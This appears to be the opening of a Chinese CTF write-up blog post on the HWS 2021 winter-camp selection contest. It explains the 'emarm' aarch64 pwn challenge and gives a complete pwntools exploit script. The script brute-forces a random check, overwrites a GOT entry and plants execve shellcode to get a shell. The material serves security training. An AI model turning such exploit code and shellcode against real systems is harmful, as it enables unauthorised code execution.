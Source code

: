```yaml
---
title: HWS 2021 入营选拔赛 Pwn/固件/内核
date: 2021-02-01 00:00:00
categories:
- CTF/Pwn
tags: arm aarch64 ppc goahead boa kernel HWS unlink off-by-null rop
---
```


> 本次入营赛时长4天半，仍然由安恒承办，赛题只有四类：固件、内核、逆向、Pwn。对于二进制选手足够友好，其中固件题目与IoT实战结合紧密，难度总体来说不大，入门友好型赛题。自己在比赛中也学到了很多东西，最终AK了Pwn和固件，内核和逆向分别做出来最简单的一个，总成绩排名第二。

![image](https://xuanxuanblingbling.github.io/assets/pic/hws/hws.png)

- HWS冬令营介绍：[HWS计划2021硬件安全冬令营重磅回归！](https://mp.weixin.qq.com/s/9FNjVBNZAElZGrPxtsX19A)
- 入营赛题目附件：[HWS20210128.zip](https://xuanxuanblingbling.github.io/assets/attachment/HWS20210128.zip)

## Pwn

### emarm

> aarch64:libc2.27，qemu运行，默认没有NX，所以可以写shellcode

- 漏洞：输入和生成的随机数判等后可实现一个任意地址写8字节，其中随机数长度与输入相等，故一字节随机数爆破即可
- 利用：写GOT表后回到main继续任意写，然后写shellcode到data段，最后在写GOT表，劫持到shellcode即可

```python
from pwn import *
context(log_level='debug')

# shelcode from https://www.exploit-db.com/shellcodes/47048

sc1 = "\xe1\x45\x8c\xd2\x21\xcd\xad\xf2"
sc2 = "\xe1\x65\xce\xf2\x01\x0d\xe0\xf2"
sc3 = "\xe1\x8f\x1f\xf8\xe1\x03\x1f\xaa"
sc4 = "\xe2\x03\x1f\xaa\xe0\x63\x21\x8b"
sc5 = "\xa8\x1b\x80\xd2\xe1\x66\x02\xd4"

fread_got = 0x412060
main_read = 0x400BE4

def aaw(addr,data):
    io.recv()
    io.send(str(addr))
    io.sendafter("success",data)
    io.sendlineafter("bye",'2')

while 1:
    try:
        io = process(["qemu-aarch64", "-L", ".", "./emarm"])
        #io = remote("183.129.189.60",10012)
        io.sendlineafter(":","a")
        aaw(fread_got,p64(main_read))
        aaw(0x412080,sc1)
        aaw(0x412088,sc2)
        aaw(0x412090,sc3)
        aaw(0x412098,sc4)
        aaw(0x4120a0,sc5)
        aaw(fread_got,p64(0x412080))
        io.interactive()
    except EOFError:
        io.close()
        continue
```